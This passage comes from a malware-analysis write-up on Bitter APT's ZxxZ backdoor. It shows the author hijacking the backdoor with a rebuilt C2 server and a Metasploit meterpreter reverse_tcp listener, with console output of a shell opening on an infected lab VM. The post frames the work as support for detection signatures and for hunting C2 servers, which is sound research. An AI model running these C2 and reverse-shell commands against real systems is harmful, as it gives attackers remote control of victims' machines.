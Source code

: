```bash
./zxxz.py --host 0.0.0.0 --port 80 --debug --input payload.exe
```

Then in metasploit we need to setup our listener. Once we have the C2 server *zxxz.py* running, our payload created and *metasploit* listening for the *meterpreter* *reverse_tcp* callback. We can run the malware on the infected VM. This will yield us a successful execution of our own payload resulting in a *[meterpreter](https://www.metasploit.com/)* session.

```bash
msfconsole
> use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT <port>
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (175174 bytes) to <redacted>
[*] Meterpreter session 3 opened (<host>:<port> -> <redacted>:50218 ) at 2022-07-02 17:17:52 -0400

meterpreter > shell
Process 772 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\malware\AppData\Local\Updates>whoami
malware-pc\malware

C:\Users\malware\AppData\Local\Updates> C:\Users\malware>start "C:\Program Files\Mozilla Firefox\firefox.exe" "https://www.youtube.com/watch?v=dQw4w9WgXcQ"

C:\Users\malware\AppData\Local\Updates>exit
meterpreter >
```

##### Proof of Concept (PoC)
In this Proof of Concept (PoC) video I use my own C2 server for Bitter APT's ZxxZ backdoor and send my own *meterpreter* payload to the infected machine.

<iframe width="560" height="315" src="https://www.youtube.com/embed/m3jrWoQK6sI" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

##### Summary

This kind of C2 analysis is a lot of work. 👷‍♀

However, please consider the following benifits.

- Reliable detection signatures
- Scanning the internet for other potential C2 servers
- Debug future samples easier when the C2 server is down

## Configuration Extraction
Since we now understand how the malware decrypts its strings, I created an automated configuration extractor for [mwcfg](https://github.com/c3rb3ru5d3d53c/mwcfg). The following is an example of how to perform extraction on Bitter APT ZxxZ samples you might have.
